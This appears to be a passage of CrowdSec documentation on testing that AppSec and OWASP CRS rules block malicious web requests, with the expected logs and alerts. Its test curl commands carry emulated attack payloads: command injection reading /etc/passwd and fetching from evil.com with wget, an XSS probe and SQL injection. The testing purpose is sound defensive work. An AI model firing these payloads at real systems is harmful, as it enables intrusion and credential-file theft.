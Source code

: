 ```bash
# Check that AppSec is running
cscli metrics

# Look for appsec metrics in the output
```

## Testing - CrowdSec Vpatch

If CrowdSec vpatch rules are properly enabled, the following request should return a 403:

```bash
TARGET=localhost
curl -I ${TARGET}'/.env'
```


## Testing - OWASP CRS

```bash
TARGET=localhost
curl -I  ${TARGET}'/?x=A";cat+/etc/passwd;wget+http://evil.com/payload'
curl -I  ${TARGET}'/?x=A";cat+/etc/passwd;wget+http://evil.com/payload'
curl -I  ${TARGET}'/?x=A"<script>alert(1)</script>'
curl -I  ${TARGET}'/?x=A"<script>alert(1)</script>'
curl -I  ${TARGET}'/?x=A"+OR+"1"="1"+union+select+"fooobar","foo'
curl -I  ${TARGET}'/?x=A"+OR+"1"="1"+union+select+"fooobar","foo'
```

:::warning
Those requests are meant to emulate malevolent requests that will be catched by OWASP CRS.
:::

Uppon triggering those, you should see in CrowdSec logs:

```bash
time="2025-08-22T11:39:50+02:00" level=info msg="Ip xxx performed 'crowdsecurity/crowdsec-appsec-outofband' (6 events over 65.915093ms) at 2025-08-22 09:39:50.392681747 +0000 UTC"
time="2025-08-22T11:39:51+02:00" level=info msg="(5cf8aff523424fa68e9335f28fec409aIfHabI3W9GsKHzab/crowdsec) crowdsecurity/crowdsec-appsec-outofband by ip xxx : 4h ban on Ip xxx"
```

Further requests to the webserver should return 403:

```bash
$ curl -I ${TARGET}
HTTP/1.1 403 Forbidden
```

## Alert Inspection

You can inspect the alert to better see what URLs or payloads triggered the rules:

```bash
# cscli  alerts list
╭──────┬────────────┬─────────────────────────────────────────┬─────────┬────┬───────────┬──────────────────────╮
│  ID  │    value   │                  reason                 │ country │ as │ decisions │      created_at      │
├──────┼────────────┼─────────────────────────────────────────┼─────────┼────┼───────────┼──────────────────────┤
│ 2172 │ Ip:xxx     │ crowdsecurity/crowdsec-appsec-outofband │         │    │ ban:1     │ 2025-08-22T09:39:50Z │
...
```
